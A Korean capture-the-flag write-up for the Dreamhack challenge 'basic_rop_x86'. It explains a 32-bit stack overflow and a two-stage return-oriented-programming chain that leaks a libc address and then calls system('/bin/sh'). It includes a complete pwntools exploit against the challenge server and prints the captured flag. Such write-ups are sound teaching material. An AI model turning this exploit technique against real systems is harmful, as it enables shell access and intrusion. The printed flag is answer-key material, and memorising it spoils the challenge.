




# B2 · basic_rop_x86

### 1. 문제 확인

`pwnable` 분류의 B2 문제로, 32비트 바이너리에서 버퍼 오버플로로 ROP를 구성해 셸을 따는 문제다. 바이너리 안에는 `system`·`"/bin/sh"`가 없으므로, **libc 주소를 leak해서** `system("/bin/sh")`을 호출한다.

<p align="center">
  
</p>

### 2. 코드

```c
// Name: basic_rop_x86.c
// Compile: gcc -o basic_rop_x86 basic_rop_x86.c -fno-pic -no-pie -m32

#include <stdio.h>
#include <unistd.h>

int main() {
  char buf[0x40] = {};

  initialize();

  read(0, buf, 0x400);          // (1) 0x40 버퍼에 0x400 입력 → 오버플로
  write(1, buf, sizeof(buf));   // (2) buf 0x40바이트를 그대로 출력 → leak 창구

  return 0;
}
```

- `read(0, buf, 0x400)` — `buf`는 `0x40`인데 `0x400`을 받으므로 **반환 주소까지 덮을 수 있다.**
- `write(1, buf, 0x40)` — 입력한 buf를 **화면에 그대로 출력**한다. `write`로 원하는 주소(함수 GOT)를 출력시키면 **libc 주소 leak**이 가능하다.

### 3. offset = 0x48 — 왜 0x48인가

`disassemble main`의 프롤로그를 명령어 순서대로 따라가면 buf부터 반환 주소까지 거리가 나온다. (각 명령이 스택을 어떻게 쌓는지는 아래 영상 참고)

- `push %edi` 한 줄 때문에 buf와 SFP 사이에 **edi 4바이트**가 끼고, `lea -0x44(%ebp)`로 **buf는 `ebp-0x44`**에 잡힌다.

<p align="center">
  
</p>

```
buf  (0x40)  +  edi (0x4)  +  SFP (0x4)  =  0x48
ebp-0x44        ebp-0x04       ebp          → 그다음이 RET(ebp+4)
```

즉 **buf 시작 → 반환 주소 = 0x48**이라, `b"A" * 0x48`로 buf·edi·SFP를 덮고 지나가면 다음 4바이트가 RET이다.

**프롤로그에 쓰인 레지스터 역할:**

| 레지스터 | 역할 |
|---|---|
| `esp` | 스택 꼭대기 포인터. `push`/`sub`로 움직인다 (push = esp-4). |
| `ebp` | 프레임 기준점. 고정해 두고 `ebp-0x44`처럼 변수를 참조한다. |
| `edi` | `buf`를 0으로 초기화(`rep stos`)할 때 **쓰는 목적지**. 그래서 `push edi`로 백업됨 → 그 4바이트가 offset에 포함. |
| `eax` | 초기화에 **쓸 값(0)**. |
| `ecx` | 초기화 **반복 횟수(0x10)**. |
| `edx` | `buf` 주소를 잠깐 담는 임시. 곧 `edi`로 옮김. |

<p align="center">
  <video src="assets/basic_rop_x86/stackframe.mov" controls width="640"></video>
</p>

> 영상이 안 보이면 <a href="assets/basic_rop_x86/stackframe.mov">여기서 재생</a> — `push ebp → push edi → sub 0x40` 순으로 스택이 쌓여 0x48이 되는 과정입니다.

### 4. 페이로드 구성

바이너리에 `system`이 없으므로 **2단계(ROP)**로 간다.

**Stage 1 — libc 주소 leak**

```python
payload  = b"A" * offset
payload += p32(write_plt)       # RET 덮기 = write 실행
payload += p32(cleanup_gadget)  # write의 복귀주소
payload += p32(1)               # write 인자1: fd=1 (화면)
payload += p32(read_got)        # write 인자2: read@got (출력할 주소)
payload += p32(4)               # write 인자3: 4바이트
payload += p32(main)            # 정리 후 main으로 재시작
```

- `write_plt` — `write(1, read_got, 4)` 실행 → **read의 실제 주소(libc 주소)를 화면에 출력**.
- `cleanup_gadget` (`pop esi; pop edi; pop ebp; ret`) — 32비트는 호출 후 **인자 3개(12바이트)가 스택에 남는다.** `pop` 3번으로 그 인자를 걷어내고 `ret`으로 `main`에 복귀.
- `main` — leak만 하고 끝나면 다시 입력받을 수 없으니, **main으로 돌아가 Stage 2를 받는다.**

leak한 `read` 주소로 libc 베이스를 구하고, 나머지 주소를 계산한다.

```python
libc_base = read_addr - read_offset   # libc 시작 주소 (ASLR로 매번 바뀜)
system = libc_base + system_offset
exit   = libc_base + exit_offset
binsh  = libc_base + binsh_offset
```

**Stage 2 — `system("/bin/sh")`**

```python
payload  = b"A" * offset
payload += p32(system)   # RET 덮기 = system 실행
payload += p32(exit)     # system의 복귀주소
payload += p32(binsh)    # system의 인자: "/bin/sh"
```

- **`system`** — 인자로 준 명령을 실행하는 함수. `system("/bin/sh")` → **셸 획득**.
- **`binsh`** — libc 안의 `"/bin/sh"` 문자열. system의 인자(`[esp+4]`).
- **`exit`** — system이 끝난 뒤 돌아갈 복귀주소(`[esp]`). 셸을 닫으면 **깔끔히 종료**(없으면 SegFault).

### 5. 익스플로잇 코드

```python
#!/usr/bin/env python3
from pwn import *

p = remote("host3.dreamhack.games", 11477)

e = context.binary = ELF("./basic_rop_x86", checksec=False)
libc = ELF("./libc.so.6", checksec=False)
rop = ROP(e)

offset = 0x48
write_plt = e.plt["write"]
read_got  = e.got["read"]
main      = e.symbols["main"]

read_offset   = libc.symbols["read"]
system_offset = libc.symbols["system"]
exit_offset   = libc.symbols["exit"]
binsh_offset  = next(libc.search(b"/bin/sh"))

cleanup_gadget = rop.find_gadget(["pop esi", "pop edi", "pop ebp", "ret"]).address

# Stage 1: write(1, read@got, 4) → main 복귀
payload  = b"A" * offset
payload += p32(write_plt)
payload += p32(cleanup_gadget)
payload += p32(1)
payload += p32(read_got)
payload += p32(4)
payload += p32(main)
p.send(payload)
p.recvuntil(b"A" * 0x40)
read_addr = u32(p.recvn(4))

libc_base = read_addr - read_offset
system = libc_base + system_offset
exit   = libc_base + exit_offset
binsh  = libc_base + binsh_offset

# Stage 2: system("/bin/sh")
payload  = b"A" * offset
payload += p32(system)
payload += p32(exit)
payload += p32(binsh)
p.send(payload)
p.recvuntil(b"A" * 0x40)
p.interactive()
```

<p align="center">
  
</p>

> `ELF("./basic_rop_x86")`, `ELF("./libc.so.6")`는 로컬 파일을 읽어 주소를 뽑으니 **두 파일이 실행 폴더에 있어야** 하고, `libc.so.6`은 **서버와 같은 버전**이어야 한다.

### 6. 실행 결과

Stage 1에서 libc를 leak하고 Stage 2로 셸을 열어 `cat flag`로 FLAG를 획득한다.

<p align="center">
  
</p>

```text
DH{511346c4606e748addd555cc9947aacf67990d504fac432f5dbb0f14eea8363b}
```
